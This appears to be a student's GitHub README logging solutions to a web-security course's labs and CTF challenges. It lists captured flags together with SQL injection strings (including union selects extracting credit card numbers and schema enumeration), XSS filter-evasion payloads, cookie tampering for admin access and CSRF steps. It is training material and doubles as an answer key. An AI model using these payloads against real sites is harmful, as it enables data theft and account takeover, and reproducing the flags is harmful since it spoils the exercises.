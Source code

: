# webhack

## week 1 - CTF

Secret Number 1: 92

Secret Number 2 - *CTF{TRIANGLE_NUMBER_SEQUENCE}

Secret Number 3 - *CTF{IDOR_ROCKS!}

Bank Robbers 2 - *CTF{YOU'RE_AN_IMPRESSIVE_THIEF}

Bank Robbers 3 - *CTF{I_SHOULD_HIDE_MY_BELONGINGS}

key player 2 - 3

key player 3 - *CTF{JORDAN_ALSO_BETTER_THAN_ME}

Odd List - *CTF{DECODE_AS_URL}

hidden user - *CTF{SQUARE_NUMBER_SERIES}

Peculiar Employees - *CTF{I_STOLE_DAENERYS_DRAGONS}

Privilege Escalation - *CTF{YOU_GOT_ADMIN_PRIVILEGE}

## week 2

### Lab

SQL Injection Escaping 
`\'   or 1;--`

SQL Injection Challenge Three:  
`Mary Martin' union select CreditCardNumber from customers where customerName = 'Mary Martin`

SQL Injection 5
`couponCode=' union select 1, 2, couponCode from vipCoupons limit 1 # `

### CTF

https://35.188.146.206/public/protected/flags/03/
`*CTF{WHOA_IT_SUPPORTS_LOGICAL_OPERATORS}`

https://35.188.146.206/public/protected/flags/04/
`*CTF{BACK_AGAIN_WITH_ANOTHER_SQLi} . 'or'1`

https://35.188.146.206/public/protected/flags/01/index.php
`*CTF{SQLI_IS_SO_FUN_TO_DO}`

https://35.188.146.206/public/protected/flags/05/?job_type=a&submit=submit


https://35.188.146.206/public/protected/flags/07/
`*CTF{SQLI_IS_MORE_FUN_WITH_HEX}`

https://35.188.146.206/public/protected/flags/08/    `params['job_type'] = 'a' `
`*CTF{ARE_YA_WARMED_UP_YET??}`

https://35.188.146.206/public/protected/flags/09/
`*CTF{OH_YOU_FANCY_HUH}` like before just encoded: `params['job_type'] = 'YQ=='`

https://35.188.146.206/public/protected/flags/10/
`" or 1=1 limit 6,1#         " union select 1,2,3,4,5,schema_name FROM information_schema.schemata limit 1,1# `

`*CTF{sqli_10}`

https://35.188.146.206/public/protected/flags/12/  in both fields: `"or"1`
`*CTF{THIS_FLAG_IS_ONLY_FOR_MR_ADMINISTRATOR}`

https://35.188.146.206/public/protected/flags/13/   'or'1'/**/limit/**/2,1#
*CTF{5.7.21-0ubuntu0.16.04.1}

https://35.188.146.206/public/protected/flags/14/
`*CTF{THE_BEST_COLUMN_NAMES_EVERRR}` :   taken from 15

not solved: 

https://35.188.146.206/public/protected/flags/15/
hints:
```
"or"1"# 
"or"1"union select 1,2 limit 1,29#

"or"1"union select TABLE_NAME,COLUMN_NAME from information_schema.COLUMNS limit 1000,1000#
```

## Week 3 - Lab

Cross Site Scripting Two
`"<INPUT TYPE="text" onblur="alert('XSS')"/>"`

3
`<META onpaonpageonpagonpageonpageshowshoweshowshowgeshow="alert(1)";`

4
`http://blabla.com"  oNpageshow=alert('XSS') `

## codepath websecurity week 4

Implementing CSRF as an exercise, more details:
https://guides.codepath.com/websecurity/Cross-Site-Request-Forgery

### Lab

ex 0: easy (just look at the response)

ex 1: from the cookie, base64, modify to: `userRole=administrator` and re-encode

ex 2: try administrator as username, you'll get the email: buzzthebald@shepherd.com
take the request of the reset pwd and try to change the cookie to admin:
changed To: -3511607529262...
now log in...

ex 3. same like before only now we have a new `current` field in the cookie, decrypting it twice with base 64 shows something like `guest12`, reverse engineer using `admin` or `administrator` and use the new 'fixed` current with the login using the new password that we just submitted for a change

ex 4. simply follow the instructions and submit the url as they suggest:
https://security.codepath.com/root/grantComplete/csrfLesson?userId=1139997297 

ex 5. CSRF - upload the url: https://security.codepath.com/user/csrfchallengeone/plusplus?userid=<your user id> and once enough other users loaded the page your counter will go to zero

ex 6. create a page with a hidden form like they show on the guide, use the url and wait for someone to load the page, see:
https://github.com/alfasin/webhack/blob/master/fake_form.html

### CTF


